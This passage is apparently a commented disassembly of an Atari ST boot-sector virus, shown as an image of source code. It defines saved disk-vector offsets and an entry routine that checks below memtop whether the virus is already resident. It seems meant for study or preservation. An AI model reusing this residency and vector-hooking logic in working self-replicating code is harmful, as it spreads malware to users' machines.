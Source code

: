 ```asm
OFFSET_DISKDATA1            equ $18           ;             dc.w $0900      ; Remains of the diskette structure information
OFFSET_DISKDATA2            equ $1A           ;             dc.w $0100
OFFSET_DISKDATA3            equ $1C           ;             dc.w $0000
OFFSET_RES_INSTALL_BRA      equ $1E           ;vir_head     bra  install_3  ; (MAGIC_ENTRY_POINT)

GENERATION                  equ START-$12     ; 0x0e
OLD_HDV_BPB_VECTOR          equ START-$10
OLD_HDV_MEDIACH_VECTOR      equ START-$C
SET_SYSTEM_VECTORS_BRANCH   equ START-2

        TEXT

; ----------------------------------------------------------------------------------------------------------
; Is used by
; ----------------------------------------------------------------------------------------------------------
HEADER:
        BRA.s     SET_SYSTEM_VECTORS

; ----------------------------------------------------------------------------------------------------------
; Code entry
; The system transfers control to the START routine as soon as the boot sector read is recognized as executable.
; ----------------------------------------------------------------------------------------------------------
START:
        MOVEA.L   (sp)+,A0                          ; poping the stack returns the starting memory address
                                                    ; as the bootsector start is BSR $20 (0x611e), return address in the stack
        SUBQ.L    #2,A0                             ; A0 points now to the beginning of the bootsector in DSKBUFP

        SUBA.L    A2,A2                             ; clear A2
        MOVEA.L   MEMTOP(A2),A1                     ; A1 = 0x436 => _memtop: $long |End of TPA (user memory),
                                                    ; This value points to the highest memory location available for the system heap.
                                                    ; This value is used to initialize GEMDOS free memory.
        SUBA.W    #$200,A1                          ; go to memtop - 512 bytes => A1

        CMPI.L    #RESIDENT_MAGIC,(A1)              ; check if resident vector is already setup
        BNE.S     INSTALL_RESIDENT_VECTOR
        CMPI.L    #VIRUS_ID,10(A1)                  ; check resident vector is the virus vector using virus identifier
        BNE       INSTALL_RESIDENT_VECTOR
        RTS
```
